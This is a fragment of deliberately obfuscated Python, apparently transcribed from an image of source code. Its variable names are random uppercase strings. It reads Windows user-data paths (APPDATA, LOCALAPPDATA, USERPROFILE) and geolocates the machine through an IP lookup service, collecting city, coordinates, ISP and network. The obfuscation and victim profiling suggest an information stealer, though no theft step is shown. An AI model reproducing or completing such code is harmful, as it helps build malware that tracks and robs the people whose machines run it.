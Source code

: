 CUKSQMDCZWPDRYBOCPRCDSMDEXNKADDWZLRWDGEPGNLCWAWHZZKGLQWOVRJIDBNRXVOLH         = os.getenv("WINDIR", None).replace(" ", "%20")
FKGYMDYRNNQXCUOCSQOZGIGMLYIGMLVUJHCYTOVQIYQSNATGZYQRHEFTGESELZWXDXEHIIKACW     = os.getenv('USERPROFILE', None).replace(" ", "%20")
ZAOAQUAAAWJFAPRXOQBXGRGETLPAFBSHLXNVEXCMFHGXHNOKUQA   = os.getenv('LOCALAPPDATA', None).replace(" ", "%20")
MJFRHOVTFXNBQXVCZUXHXNAFBJHZMBBETZRBMDIDNFALDSPRRFLHIOKSSZEQWSDNCGOICNPHUAVQVUPGCYQLZPAGWYNAS = os.getenv('APPDATA', None).replace(" ", "%20")

try:
    ZDYSUVKJRULCUQWMBTYIVZEIBXJNXSVZCAAGUCPJVNZCPVRZSEHRBKAKMROL = requests.get(f"https://{MSXRVKKUDRKQPPGODVGLZBHGERKPUNRDQDOKMNUMOOIDPIPYORCYLFYVMWCARNQEWYDXEQQQFNUBKSLMDWIQTNWF}/api/ip/ip={OWZPKISWFCREINMYLYOQYEQPQTDTIZVPXTSCYXBPTRQSEOSICUDJWMDVPYDZLDVQJYUSFSJL}")
    OADZZHBXMDHVJODAEYTPQSLNNZIMUYKCAAOJNPBKKJSKRGTWZYVUJ = ZDYSUVKJRULCUQWMBTYIVZEIBXJNXSVZCAAGUCPJVNZCPVRZSEHRBKAKMROL.json()

    HYSAISGLQWKPYMPDMTTQNHMVVSUVFPDHNXSKMDVPKQVTQVSNAXKLRCNEJSEB = OADZZHBXMDHVJODAEYTPQSLNNZIMUYKCAAOJNPBKKJSKRGTWZYVUJ.get('country', "None")
    HYSAISGLQWKPYMPDMTTQNHMVVSUVFPDHNXSKMDVPKQVTQVSNAXKLRCNEJSEB_code = OADZZHBXMDHVJODAEYTPQSLNNZIMUYKCAAOJNPBKKJSKRGTWZYVUJ.get('country_code', "None")
    FPEPQEGMWRXRGQLLDIYZLYKKFIPYKMDXCVPTROUWZCTRYAOYSBMSGBTNEDPJJOAGACAC = OADZZHBXMDHVJODAEYTPQSLNNZIMUYKCAAOJNPBKKJSKRGTWZYVUJ.get('region', "None")
    FPEPQEGMWRXRGQLLDIYZLYKKFIPYKMDXCVPTROUWZCTRYAOYSBMSGBTNEDPJJOAGACAC_code = OADZZHBXMDHVJODAEYTPQSLNNZIMUYKCAAOJNPBKKJSKRGTWZYVUJ.get('region_code', "None")
    XDWCXOBHXENJHWALRXEUEVASYJJABXBSJJICISWDCAUUDRHCFRJZGS = OADZZHBXMDHVJODAEYTPQSLNNZIMUYKCAAOJNPBKKJSKRGTWZYVUJ.get('zip', "None")
    VRSDBULYRJAVCXEGCILFIIEMONXACSNQAQONGDIOCTSFMTSJDAWHPDCTKZBOZULREFXLCWLDFAWLMCQOYSIELKTF = OADZZHBXMDHVJODAEYTPQSLNNZIMUYKCAAOJNPBKKJSKRGTWZYVUJ.get('city', "None")
    TQZJHZPVRFIPZMGYUJQHMKMXCPRPKRSORYFQFPYHUGNNGVVZTXTVSOZSQXWHUIXPWMBQDREPTAKYDICZDSVT = OADZZHBXMDHVJODAEYTPQSLNNZIMUYKCAAOJNPBKKJSKRGTWZYVUJ.get('latitude', "None")
    EBDBNNIIDNUEURCZISNEWIEGSIJTDOVODFDHSAPQIODRULDNLEFMNQKOOICMCEECGYEYRAOAENSEURCEAXIROOVHVLUHVZHYLBA = OADZZHBXMDHVJODAEYTPQSLNNZIMUYKCAAOJNPBKKJSKRGTWZYVUJ.get('longitude', "None")
    YFFDSXMDKWOOOTNJLZYMQVEHYRIASVEKEJNAMJTZZHQDJAOGWMRZTMGEESWUHEGZ = OADZZHBXMDHVJODAEYTPQSLNNZIMUYKCAAOJNPBKKJSKRGTWZYVUJ.get('timezone', "None")
    SAECUOLFQOYPIPNYUEPVTEKHFIERNEAUTOYRUVDBLPPLYJCWAYNVYFMWESRTTKKUZVHAPXHFSNFQKRTAUMCO = OADZZHBXMDHVJODAEYTPQSLNNZIMUYKCAAOJNPBKKJSKRGTWZYVUJ.get('isp', "None")
    TGGQTPXGWUOBRIZVOHAMOYMBNVLDUHDIXXCUOXQTTSMRBIZOTRMHAXQLDQCZOAUMIYZILHZMCRTEMZGVURCTQNABOTQG = OADZZHBXMDHVJODAEYTPQSLNNZIMUYKCAAOJNPBKKJSKRGTWZYVUJ.get('org', "None")
    TBGGJDFEEKSBVUSIMOYLMXQIQAEORZGFBKTEAANLOZFDUDLPSPFBBFG = OADZZHBXMDHVJODAEYTPQSLNNZIMUYKCAAOJNPBKKJSKRGTWZYVUJ.get('as', "None")
except:
    ZDYSUVKJRULCUQWMBTYIVZEIBXJNXSVZCAAGUCPJVNZCPVRZSEHRBKAKMROL = requests.get(f"http://ip-api.com/json/{OWZPKISWFCREINMYLYOQYEQPQTDTIZVPXTSCYXBPTRQSEOSICUDJWMDVPYDZLDVQJYUSFSJL}")
    OADZZHBXMDHVJODAEYTPQSLNNZIMUYKCAAOJNPBKKJSKRGTWZYVUJ = ZDYSUVKJRULCUQWMBTYIVZEIBXJNXSVZCAAGUCPJVNZCPVRZSEHRBKAKMROL.json()

    HYSAISGLQWKPYMPDMTTQNHMVVSUVFPDHNXSKMDVPKQVTQVSNAXKLRCNEJSEB = OADZZHBXMDHVJODAEYTPQSLNNZIMUYKCAAOJNPBKKJSKRGTWZYVUJ.get('country', "None")
    HYSAISGLQWKPYMPDMTTQNHMVVSUVFPDHNXSKMDVPKQVTQVSNAXKLRCNEJSEB_code = OADZZHBXMDHVJODAEYTPQSLNNZIMUYKCAAOJNPBKKJSKRGTWZYVUJ.get('countryCode', "None")
    FPEPQEGMWRXRGQLLDIYZLYKKFIPYKMDXCVPTROUWZCTRYAOYSBMSGBTNEDPJJOAGACAC = OADZZHBXMDHVJODAEYTPQSLNNZIMUYKCAAOJNPBKKJSKRGTWZYVUJ.get('regionName', "None")
    FPEPQEGMWRXRGQLLDIYZLYKKFIPYKMDXCVPTROUWZCTRYAOYSBMSGBTNEDPJJOAGACAC_code = OADZZHBXMDHVJODAEYTPQSLNNZIMUYKCAAOJNPBKKJSKRGTWZYVUJ.get('region', "None")
    XDWCXOBHXENJHWALRXEUEVASYJJABXBSJJICISWDCAUUDRHCFRJZGS = OADZZHBXMDHVJODAEYTPQSLNNZIMUYKCAAOJNPBKKJSKRGTWZYVUJ.get('zip', "None")
    VRSDBULYRJAVCXEGCILFIIEMONXACSNQAQONGDIOCTSFMTSJDAWHPDCTKZBOZULREFXLCWLDFAWLMCQOYSIELKTF = OADZZHBXMDHVJODAEYTPQSLNNZIMUYKCAAOJNPBKKJSKRGTWZYVUJ.get('city', "None")
    TQZJHZPVRFIPZMGYUJQHMKMXCPRPKRSORYFQFPYHUGNNGVVZTXTVSOZSQXWHUIXPWMBQDREPTAKYDICZDSVT = OADZZHBXMDHVJODAEYTPQSLNNZIMUYKCAAOJNPBKKJSKRGTWZYVUJ.get('lat', "None")
    EBDBNNIIDNUEURCZISNEWIEGSIJTDOVODFDHSAPQIODRULDNLEFMNQKOOICMCEECGYEYRAOAENSEURCEAXIROOVHVLUHVZHYLBA = OADZZHBXMDHVJODAEYTPQSLNNZIMUYKCAAOJNPBKKJSKRGTWZYVUJ.get('lon', "None")
    YFFDSXMDKWOOOTNJLZYMQVEHYRIASVEKEJNAMJTZZHQDJAOGWMRZTMGEESWUHEGZ = OADZZHBXMDHVJODAEYTPQSLNNZIMUYKCAAOJNPBKKJSKRGTWZYVUJ.get('timezone', "None")